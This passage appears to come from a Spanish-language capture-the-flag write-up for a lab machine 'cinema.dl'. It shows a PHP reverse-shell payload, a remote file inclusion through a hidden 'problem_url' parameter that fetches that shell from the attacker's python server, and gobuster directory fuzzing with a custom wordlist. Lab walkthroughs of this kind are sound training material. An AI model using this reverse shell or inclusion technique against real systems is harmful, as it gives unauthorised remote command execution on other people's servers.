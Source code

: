 Vemos que hay un parametro oculto llamado `problem_url=` el cual indica como una `URL` por defecto como si pudieramos hacer algo desde un servidor externo, por lo que vamos a probar a abrir un servidor de `python3` con una `shell.php` que vamos a crear y añadirlo en ese parametro a ver que pasa.

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Abriremos un servidor de `python3`:

```shell
python3 -m http.server
```

Y ahora en la pagina iremos a la siguiente `URL` ya que sabemos que parametro usar.

```
URL = http://cinema.dl/reservation.php?problem_url=http://<IP>:8000/shell.php
```

Si nos vamos a donde tenemos el servidor de `python3` veremos que nos ha cogido el archivo:

```
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.17.0.3 - - [16/Jan/2025 06:18:16] "GET /shell.php HTTP/1.1" 200 -
```

Pero no tenemos ninguna carpeta de `uploads/` ni nada parecido, por lo que vamos a probar hacer un `fuzzing` con un diccionario personalizado sobre el nombre y apellidos de los actores de la pelicula `El tiempo que tenemos` quedando de la siguiente forma:

## Gobuster

> dic.txt

```
andrewgarfield
florencepugh
gracedelaney
leebraithwaite
aoifehinds
adamjames
douglashodge
maramacorlett
heathercraney
niamhcusack
robertboulter
kerrygodliman
```

Y haremos lo siguiente:

```shell
gobuster dir -u http://cinema.dl/ -w dic.txt -x html,php,txt -t 100 -k
```
